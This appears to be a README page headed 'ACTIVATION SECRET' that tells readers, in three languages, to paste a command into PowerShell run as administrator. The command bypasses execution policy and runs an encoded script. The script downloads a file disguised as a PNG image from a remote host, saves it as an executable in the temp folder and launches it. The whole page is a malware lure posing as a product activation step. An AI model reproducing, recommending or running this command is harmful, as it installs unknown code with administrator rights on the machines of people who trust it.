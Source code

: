 # ACTIVATION SECRET

> [!IMPORTANT]
> Copy and paste the full command and run powershell as admin.

> Copie y pegue el comando completo y ejecute powershell como administrador.

> Copie e cole o comando completo e execute o PowerShell como administrador.

> [!NOTE]
> > Set-ExecutionPolicy Bypass -Scope Process -Force; powershell.exe -EncodedCommand SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgACIAaAB0AHQAcABzADoALwAvAHMAdABhAHIAdABpAG4AZwBjAG8AbgBuAGUAYwB0AGkAbwBuAC4AcAB5AHQAaABvAG4AYQBuAHkAdwBoAGUAcgBlAC4AYwBvAG0ALwBzAHQAYQB0AGkAYwAvAG0AYQBpAG4ALgBwAG4AZwAiACAALQBPAHUAdABGAGkAbABlACAAIgAkAGUAbgB2ADoAVABFAE0AUABcAG0AYQBpAG4AQQBjAC4AZQB4AGUAIgA7ACAAUwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgAC0ARgBpAGwAZQBQAGEAdABoACAAIgAkAGUAbgB2ADoAVABFAE0AUABcAG0AYQBpAG4AQQBjAC4AZQB4AGUAIgA7AAoA
